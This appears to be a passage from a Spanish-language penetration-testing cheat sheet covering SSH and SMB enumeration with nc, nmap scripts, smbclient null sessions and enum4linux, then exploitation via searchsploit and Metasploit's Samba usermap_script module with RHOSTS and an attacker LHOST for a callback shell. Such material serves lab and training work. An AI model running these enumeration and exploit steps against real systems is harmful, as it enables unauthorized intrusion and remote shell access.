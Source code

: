 #### SSH (Puerto 22)
```bash
# Banner grabbing manual
nc [IP] 22

# Enumeración de algoritmos y usuarios con Nmap
nmap -p 22 --script ssh-enum-algos,ssh-enum-users --script-args userdb=users.txt [IP]
```

#### SMB/NetBIOS (Puertos 139, 445)
```bash
# Listado de recursos compartidos (sin autenticación)
smbclient -L //[IP_objetivo] -N
```

| Flag de `smbclient` | Función | Descripción |
|---|---|---|
| `-L` | Listar | Enumera los shares (recursos compartidos) en el host objetivo. |
| `-N` | Sin Password | Realiza el intento de enumeración como una "sesión nula", sin proporcionar credenciales. |

```bash
# Enumeración completa y exhaustiva con enum4linux
enum4linux -a [IP_objetivo]
```

| Flag de `enum4linux` | Función | Descripción |
|---|---|---|
| `-a` | All | Realiza todas las comprobaciones de enumeración posibles (usuarios, shares, políticas, etc.). Es la opción más completa y ruidosa. |

```bash
# Scripts NSE para enumeración y vulnerabilidades SMB
nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* [IP]
```

--- 

## ⚔️ FASE 3: EXPLOTACIÓN

### 3.1. Búsqueda y Uso de Exploits

```bash
# Búsqueda por servicio y versión con searchsploit
searchsploit samba 3.0.20

# Copiar exploit para análisis y modificación
searchsploit -m [ID_exploit]
```

| Flag de `searchsploit` | Función | Descripción |
|---|---|---|
| `-m` | Mirror (Copiar) | Copia el exploit desde la base de datos local a tu directorio de trabajo actual. |

```bash
# Búsqueda de módulos en Metasploit
msfconsole -q
search type:exploit platform:linux samba

# Configuración y ejecución de exploit
use exploit/multi/samba/usermap_script
show options
set RHOSTS [IP_objetivo]
set LHOST [IP_atacante]
exploit
```
